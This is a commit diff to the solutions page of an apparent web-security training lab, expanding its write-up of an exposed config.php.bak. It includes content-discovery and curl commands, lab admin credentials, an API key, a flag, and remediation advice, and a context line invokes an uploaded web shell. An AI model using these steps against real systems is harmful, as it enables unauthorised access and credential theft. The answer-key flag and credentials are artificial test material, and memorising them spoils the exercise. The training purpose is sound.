

Before and after one commit to wolinskis/css-lab-kit, a Markdown page: webapp/SOLUTIONS.md, 2 parts joined by grey strips. Shown at 93% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Expand info-disclosure write-up (config.php.bak finding)
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/webapp/SOLUTIONS.md
+++ b/webapp/SOLUTIONS.md
@@ -2,7 +2,7 @@
 tags: [css-exam, labs, solution, web]
 ---
 # VulnCorp (app 1) — Solutions
-> ↑ [[Lab Kit — hands-on training environment|Lab Kit]] · method: [[Web Penetration Test Checklist]]
+> ↑ Lab Kit · method: Web Penetration Test Checklist
 
 Try each vuln yourself first (checklist Phase 0 → detect → exploit). `U=http://localhost:8000`.
 
@@ -85,16 +85,55 @@ curl -s "$U/uploads/sh.php?c=id"
 **Command:** `curl -sD - "$U/" -o /dev/null | grep -i content-security-policy`
 **Result:** `...script-src 'self' 'unsafe-inline'...`. **Reason:** `'unsafe-inline'` defeats the main purpose of CSP — compare with challenges 5/6 where it was absent.
 
-## 9. Information disclosure
-**Answer:** a config backup, robots, a security.txt pointer, and an HTML comment leak secrets/paths.
+## 9. Information disclosure — exposed config backup leaks admin creds
+
+**Answer:** a backup of the app config (`config.php.bak`) is left in the web root. Because `.bak` is
+not executed by PHP it is served as plaintext source, leaking `ADMIN_PASS = S3ntinel!Admin` and
+`API_SIGNING_KEY = sk_live_9f2c1a77d4b0e5f6a1b2c3d4`. `robots.txt` advertised the path.
+Flag: `FLAG{c0nfig_backup_left_in_webroot}`.
+
+**Discovery (how the path was found):** the app returns a page for almost every path, so plain
+status-based busting is noisy and `robots.txt`/`uploads` get hidden (they 404). `feroxbuster` with
+all status codes + link extraction surfaces them:
+```
+feroxbuster -u http://localhost:8000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
+# -> 200 config.php.bak ; 404 .well-known /private /uploads /pages   (the real paths)
+```
+(ffuf/gobuster work too once you filter the wildcard: `ffuf ... -ac` or `gobuster ... --exclude-length 3545,5577`.)
+
 **Command:**
 ```
-curl -s "$U/config.php.bak"                     # ADMIN_PASS + API_SIGNING_KEY
-curl -s "$U/robots.txt"; curl -s "$U/.well-known/security.txt"
-curl -s "$U/private/deployment-notes.txt"       # pointed to by security.txt
-curl -s "$U/" | grep -i '<!--'                  # dev TODO comment
+curl -s "$U/robots.txt"                          # map of "hidden" paths
+curl -s "$U/config.php.bak"                       # served as PLAINTEXT -> ADMIN_PASS + API_SIGNING_KEY
+curl -s "$U/.well-known/security.txt"             # points to the deployment notes
+curl -s "$U/private/deployment-notes.txt"         # confirms creds are live
+curl -s "$U/" | grep -i '<!--'                    # dev TODO comment
 ```
-**Result:** admin creds, signing key, internal deployment notes. **Reason:** backup/`.well-known`/comments left in the web root.
+
+**Result:**
+```
+# robots.txt -> Disallow: /private/  /config.php.bak  /.well-known/
+# config.php.bak ->
+$ADMIN_USER      = 'admin';
+$ADMIN_PASS      = 'S3ntinel!Admin';
+$API_SIGNING_KEY = 'sk_live_9f2c1a77d4b0e5f6a1b2c3d4';
+// FLAG{c0nfig_backup_left_in_webroot}
+# deployment-notes.txt -> "credential rotation: pending (still S3ntinel!Admin)"
+```
+Then `admin : S3ntinel!Admin` logs in at `/login.php` → full admin.
+
+**Reason:** `config.php` is executed by PHP (source never returned); the `.bak` copy has no PHP
+handler so the server returns it verbatim. `robots.txt` is **not** access control — it only
+enumerated the sensitive paths.
+
+> Gotcha: opening `config.php.bak` in a **browser looks blank** — the browser hides `<?php … ?>` as an
+> unknown processing-instruction tag. Use **View Source (Ctrl+U)** or `curl` to read it.
+
+**Impact:** unauthenticated disclosure of the admin password + an API signing key → full compromise
+and the ability to forge signed API requests.
+
+**Remediation:** keep configs **outside** the web root; remove `*.bak`/`*.old`/`*~`/`*.swp`/`.git/`
+from it; protect sensitive paths with auth (not `robots.txt`); rotate the exposed password and key.
 
 ## 10. Weak / default credentials  (`login.php`)
 **Answer:** several accounts use guessable passwords.
````
